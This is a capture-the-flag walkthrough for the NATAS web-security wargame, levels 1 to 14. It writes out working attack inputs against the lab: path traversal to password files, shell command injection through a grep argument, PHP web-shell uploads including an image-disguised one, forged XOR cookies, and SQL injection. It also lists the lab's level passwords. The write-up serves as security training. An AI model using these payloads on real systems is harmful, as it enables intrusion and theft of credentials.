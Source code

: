 **OVER THE WIRE : NATAS Wargame**

[http://overthewire.org/wargames/natas/](http://overthewire.org/wargames/natas/)

**natas1**

By inspecting the webpage's html you can find the token as a comment

`&lt;!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto --&gt;`

**natas2 **

Same as previous except rightclicking blocked. Using keyboard shortcuts, the html source can easily be opened.

`&lt;!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi --&gt;`

**natas3 **

Nothing on the actual page. A pixel image was added and by looking at the parent directory `files` we can find a txt file with *username:password* in it and the 4th entry is:

`natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`

**natas4 **

Page hint:

Using a simple google dork we can find the secret path:

`site:http://natas3.natas.labs.overthewire.org/`

returns `http://natas3.natas.labs.overthewire.org/s3cr3t/` with a .txt in there and an entry:

`natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

**natas5**

Page hint: *Access disallowed. You are visiting from "" while authorized users should come only from "[http://natas5.natas.labs.overthewire.org/](http://natas5.natas.labs.overthewire.org/)"*

A simple curl request allows us to set the referrer and get the password: `curl -e http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/ -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

Returns : `Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

**natas5 **

Page hint: *Access disallowed. You are not logged in*

A cookie called loggedin has been set to 0 (false) changing it to 1 and reloading gives the password

`Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

**natas6 **

Opening the "source code" gives us a php page with `include "includes/secret.inc";`

Going to that file we see `$secret = "FOEIUWGHFEEUHOFUOIU";`

Using it as the secret on the first page, we get the password to the next stage:

`Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

**natas7**

By inspecting the page we see a useful comment and that the pages are requested using a parameter *[Home](index.php?page=home)*

We can then look at `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` which give us the password:

`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

**natas8 **

Similarly to natas 6 we have a source code to explore. We can see that the secret this time is encoded using a function

`bin2hex(strrev(base64_encode($secret)));`

we simply need to reverse the function to get the secret:

`bin2hex(strrev(base64_encode($secret)))`

by running `base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));`

we get the secret which is : `oubWYf2kBq`

Entering the secret gives us :

`Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

**natas9 **

The source code reveals `passthru("grep -i $key dictionary.txt");`

This code is vulnerable to code injection and we can then look for the file with the password.

From natas7, the passwords seems to reside under `/etc/natas_webpass`

Using `| ls -a /etc/natas_webpass #` we can list all the files in that directory and find *natas10*

Using `| cat /etc/natas_webpass/natas10 #` we get the password:

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

**natas10**

Similar to natas9 except there is a regex trying to match illegal characters.

The illegal characters are ";|&"

But grep is already powerful enough on it's own and by simply searching

`"" /etc/natas_webpass/natas11 #` we get:

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

**natas11 **

The hint here is "Cookies are protected with XOR encryption". Looking at the source, we find an xor_encrypt function with a `$key = '&lt;censored&gt;';` inside.

Since the key is used to XOR the output text, we can use the output and defaultdata to find the secret key.

With a script, we find that the key is `qw8J`

We then use this key to encrypt a new cookie with "showpassword=yes" as data and we get:

`The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`

Here's the script I used: [https://pastebin.com/VdpS3AsF](https://pastebin.com/VdpS3AsF)

**natas12**

File upload problem. By looking at the html code we can see the form sets an hidden input as filename. In this case changing the ext to .php allows us to upload and run php files.

Uploading a php file with "&lt;?php readfile("/etc/natas_webpass/natas13"); ?&gt;" and setting the filename with a .php extension allows us to get the password:

`jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`

**natas13**

Similar to natas12 except this time it's checking if the file is an image file `exif_imagetype($_FILES['uploadedfile']['tmp_name'])` This only check metadata and by creating a blank jpeg image and appending php code we can do the same thing as in natas12.

We're then able to run php code and get the password: `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`

**natas14 **

Simple Sql injection.

Login using `" or 1=1 -- "` as password gives us the password:

`Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`
